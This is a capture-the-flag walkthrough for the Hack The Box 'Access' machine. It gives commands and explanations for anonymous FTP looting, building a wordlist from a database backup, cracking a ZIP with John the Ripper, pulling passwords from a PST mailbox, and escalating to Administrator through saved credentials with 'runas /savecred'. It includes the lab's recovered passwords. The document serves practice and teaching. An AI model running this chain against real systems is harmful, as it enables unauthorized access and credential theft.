




##htb-access

---

## 1. Nmap



```bash
nmap -p- -sV -sC -v 10.129.29.21 -oN nmap.txt
```

### Explanation
Performed full port and service enumeration. Discovered FTP with anonymous access, which is a strong indicator of exposed files. Telnet was also identified as a possible entry point if credentials could be found.

---

## 2. FTP Enumeration


```bash
wget -r --no-passive ftp://10.129.29.21/
```

### Explanation
Anonymous login allowed full access to files. Downloaded everything instead of browsing manually. Found a database backup and a protected ZIP archive, both likely to contain credentials.

---

## 3. ZIP Hash Extraction


```bash
zip2john "Access Control.zip" > Access_Control.hash
```

### Explanation
The ZIP archive was password protected, so it needed to be cracked. Converted it into a format usable by John the Ripper.

---

## 4. Wordlist from Database



```bash
strings -n 8 backup.mdb | sort -u > backup_wordlist
```

### Explanation
Extracted strings from the database backup to build a custom wordlist. This is more effective than generic lists because it uses real data from the target.

---

## 5. Crack ZIP Password


```bash
john Access_Control.hash --wordlist=backup_wordlist
```

### Explanation
Used the custom wordlist to successfully crack the ZIP password.

```
access4u@security
```

---

## 6. Extract PST + Find Credentials



```bash
unzip "Access Control.zip"
readpst "Access Control.pst"
cat "Access Control.mbox"
```

### Explanation
Extracted and reviewed email contents. Emails are commonly used to share credentials internally, leading to valid login details.

```
security : 4Cc3ssC0ntroller.
```

---

## 7. Telnet Access



```bash
telnet 10.129.29.21
```

### Explanation
Used discovered credentials to gain a shell as the `security` user via Telnet.

---

## 8. Check Saved Credentials


```cmd
cmdkey /list
```

### Explanation
Enumerated stored Windows credentials and found cached Administrator access, indicating a privilege escalation opportunity.

---

## 9. Privilege Escalation


```cmd
runas /savecred /user:ACCESS\Administrator "cmd.exe /c type C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Desktop\root.txt"
```

```cmd
type C:\Users\security\Desktop\root.txt
```

### Explanation
Used saved credentials to execute commands as Administrator without needing the password, achieving full system access.

---

## Attack Path

```
FTP → Files → Wordlist → Crack ZIP → PST → Credentials → Telnet → cmdkey → runas → ROOT
```

---

## Key Takeaways

- FTP = always download everything  
- Backup files and emails often contain credentials  
- Custom wordlists are highly effective  
- `cmdkey /list` is critical on Windows systems  
- `runas /savecred` can lead directly to privilege escalation  
